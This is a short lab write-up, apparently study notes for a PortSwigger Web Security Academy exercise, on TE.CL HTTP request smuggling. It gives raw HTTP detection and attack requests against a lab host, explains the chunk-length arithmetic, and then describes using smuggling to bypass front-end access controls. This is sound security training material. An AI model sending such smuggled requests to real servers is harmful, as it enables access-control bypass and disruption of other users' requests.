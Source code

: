 This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response. 

This request return a timeout error, confiming this is a TE.CL vul
```
POST / HTTP/1.1
Host: 0a0700ea045b985a81394893000300cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 6

0

X
```
Attack request:
```
POST / HTTP/1.1
Host: 0a0700ea045b985a81394893000300cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 4

ac
POST /hello HTTP/1.1
Host: 0a0700ea045b985a81394893000300cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

nglong05=hello
0

```

- Content-Length: 4 (**ac\r\n**)
- ac: bytes from **POST to hello**, not include the last clrf
- Content-Length: 25 (more bytes than the content lenght of the smug)

## Exploiting HTTP request smuggling vulnerabilities
### Using HTTP request smuggling to bypass front-end security controls

 In some applications, the front-end web server is used to implement some security controls, deciding whether to allow individual requests to be processed. Allowed requests are forwarded to the back-end server, where they are deemed to have passed through the front-end controls.

For example, suppose an application uses the front-end server to implement access control restrictions, only forwarding requests if the user is authorized to access the requested URL. The back-end server then honors every request without further checking. In this situation, an HTTP request smuggling vulnerability can be used to bypass the access controls, by smuggling a request to a restricted URL.
